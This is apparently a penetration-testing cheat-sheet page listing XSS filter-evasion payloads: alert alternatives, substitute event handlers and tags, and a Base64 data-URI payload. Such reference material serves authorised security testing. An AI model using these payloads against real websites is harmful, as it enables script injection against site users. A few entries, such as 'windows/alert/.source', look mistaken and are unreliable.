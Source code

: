 ### Basic Bypasses

{% hint style="info" %}
Whenever facing filters or blacklists on your special characters or javascript payloads, try using the following basic bypasses and alternative representations.
{% endhint %}

***

#### Alert alternatives

If `alert('xss')` or `alert(1)` are filtered, try using:

* `prompt('xss')` or `prompt(1)`
* `confirm('xss')` or `confirm(1)`
* `alert(/xss/.source)`
* `windows/alert/.source`

***

#### OnError alternatives

If `onerror=alert(1)` is filtered, try using:

* `onload=alert(1)`
* `onfocus=alert(1)` combined with `autofocus=true`
* `setTimeout(alert(1))`&#x20;
* `setInterval(alert(1))`
* `Function(alert(1))()`
* `setImmediate(alert(1))` \[notice that this only works on IE 10+]

***

#### Img tag alternatives

If an img payload such as `<img src=x onerror=alert(1)>` is filtered, try using:

* `<svg/onload=alert(1)>`
* `<video src=x onerror=alert(1)>`
* `<audio src=x onerror=alert(1)>`

***

#### Using Base64 encoded payloads&#x20;

You can bypass many blacklist-based filters by using Base64-encoded payloads.

Generally speaking, you can generate the Base64-encoding of any payload and use it inside the `atob` JavaScript function. In particular, just use

`atob("<BASE64-PAYLOAD-ENCODING>")`

You could also use other base64 encoded payloads such as the following alternative to `javascript:alert('XSS')`: `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

***
